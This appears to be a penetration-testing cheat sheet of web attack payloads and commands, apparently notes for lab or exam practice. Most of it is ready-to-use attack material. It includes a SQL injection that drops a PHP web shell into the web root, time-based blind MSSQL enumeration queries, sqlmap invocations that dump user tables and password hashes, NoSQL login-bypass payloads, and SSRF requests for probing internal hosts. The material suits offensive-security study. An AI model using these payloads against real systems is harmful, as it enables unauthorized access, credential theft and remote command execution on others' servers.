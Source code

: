 ```
# SQL Web Shell
'UNION SELECT ("<?php echo passthru($_GET['cmd'];") INTO OUTFILE 'C:/xampp/htdocs/command.php'>) #MedJed

# Blind Enumeration (https://auspisec.com/blog/20220118/proving_grounds_butch_walkthrough.html)
' IF (1=1) WAITFOR DELAY '0:0:10';--  #Evaluates to true and waits 10 secs

' IF ((select count(name) from sys.tables where name = 'users')=1) WAITFOR DELAY '0:0:10';--  #This query uses Boolean to guess the table name of a database

' IF ((select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' and c.name = 'username')=1) WAITFOR DELAY '0:0:10';-- #This query uses Boolean to guess the column name of a table

# Post
./sqlmap.py -r search-test.txt -p tfUPass  #<-p> is the parameter to test in the file
[From Burp to confirm] POST /issue/checkByPriority?priority=Normal'+UNION+SELECT+sleep(5);+--+- HTTP/1.1

sqlmap -r post.login.req --threads=1 --time-sec=1 --level=5 --risk=3 --dbms=mssql -T users -C username,password_hash --random-agent --batch --dump

# Get
sqlmap -u "http://10.11.1.111/index.php?id=1" --dbms=mysql

# Crawl
sqlmap -u http://10.11.1.111 --dbms=mysql --crawl=3

# Full auto - THE GOOD ONE
sqlmap -u 'http://10.11.1.111:1337/978345210/index.php' --forms --dbs --risk=3 --level=5 --threads=4 --batch
# Columns
sqlmap -u 'http://admin.cronos.htb/index.php' --forms --dbms=MySQL --risk=3 --level=5 --threads=4 --batch --columns -T users -D admin
# Values
sqlmap -u 'http://admin.cronos.htb/index.php' --forms --dbms=MySQL --risk=3 --level=5 --threads=4 --batch --dump -T users -D admin

sqlmap -o -u "http://10.11.1.111:1337/978345210/index.php" --data="username=admin&password=pass&submit=+Login+" --method=POST --level=3 --threads=10 --dbms=MySQL --users --passwords

sqlmap http://192.168.133.52/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" -D zm --tables --threads 5
# NoSQL
' || 'a'=='a
mongodbserver:port/status?text=1

#in URL
username[$ne]=toto&password[$ne]=toto

#in JSON
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$gt":""}, "password": {"$gt":""}}

## SSRF

web that send request to external IP's, we call 127.0.0.1:8080 / 10.1.10.111 to enum internal network

chat:3000/ssrf?user=&comment=&link=http://127.0.0.1:3000
GET /ssrf?user=&comment=&link=http://127.0.0.1:3000 HTTP/1.1

Also we can enum ports
```